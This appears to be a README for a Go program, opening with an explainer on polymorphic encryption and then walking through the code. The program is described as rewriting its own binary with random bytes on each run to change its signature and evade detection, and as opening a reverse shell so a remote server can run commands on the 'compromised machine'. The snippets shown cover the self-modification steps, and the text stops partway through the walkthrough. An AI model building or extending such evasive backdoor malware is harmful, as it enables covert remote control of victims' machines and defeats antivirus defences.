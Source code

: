 ## What is poymorphic encryption?

Polymorphic encryption is a cryptographic technique where the encryption algorithm or key changes dynamically during the process of encryption, making it more difficult for attackers to decrypt the data even if they gain partial knowledge about the encryption method. The "polymorphic" aspect refers to the system's ability to change form, similar to how polymorphic viruses change their code each time they replicate to avoid detection.

Here’s how polymorphic encryption works:

1. **Dynamic Changes:** Unlike standard encryption methods that use a single algorithm and key throughout, polymorphic encryption changes its algorithm, key, or both at different stages of the encryption process. This variability can be driven by a predefined pattern, random changes, or a combination of factors.

2. **Increased Security:** By frequently changing the encryption parameters, polymorphic encryption makes it much harder for attackers to predict or reverse-engineer the encryption process. Even if an attacker figures out one part of the encryption, it won't necessarily help them with the rest, as the encryption method might have already changed.

3. **Applications:** Polymorphic encryption is used in scenarios requiring high security, such as in military communications, sensitive data transmission, or securing large-scale distributed systems. It's also a concept used in the design of some types of malware to avoid detection by antivirus software.

4. **Complexity:** While offering enhanced security, polymorphic encryption is also more complex to implement and may require more computational resources, which can be a trade-off depending on the application.

In summary, polymorphic encryption is a sophisticated and adaptable form of encryption that provides enhanced security through its ability to change dynamically, making it challenging for unauthorized parties to decrypt the data.

## Code Walkthrough
 1. **Self-Modification:** The program modifies its own binary content by appending random bytes each time it runs, changing its signature while maintaining the same functionality.
2. **Reverse Shell:** The program establishes a reverse shell connection to a specified IP address and port, allowing an external server to send commands to the compromised machine and execute them.
## Detailed Walkthrough
### 1. **Retrieving Executable Path**
```golang
exePath, err := os.Executable()
if err != nil {
    fmt.Printf("Error: Failed to retrieve executable path: %s\n", err)
    return
}
```
- The program begins by retrieving the path to its own executable file. This is necessary because the program will read and modify its own binary content.
### 2. **Generating Random Bytes**
```golang
randomBytes := make([]byte, 16)
_, err = rand.Read(randomBytes)
if err != nil {
    fmt.Printf("Error: Failed to generate random bytes: %s\n", err)
    return
}
```
- A slice of 16 random bytes is generated. These bytes are used to modify the binary content of the executable, effectively altering its signature with each execution.
### 3. **Reading the Executable Content**
```golang
content, err := ioutil.ReadFile(exePath)
```
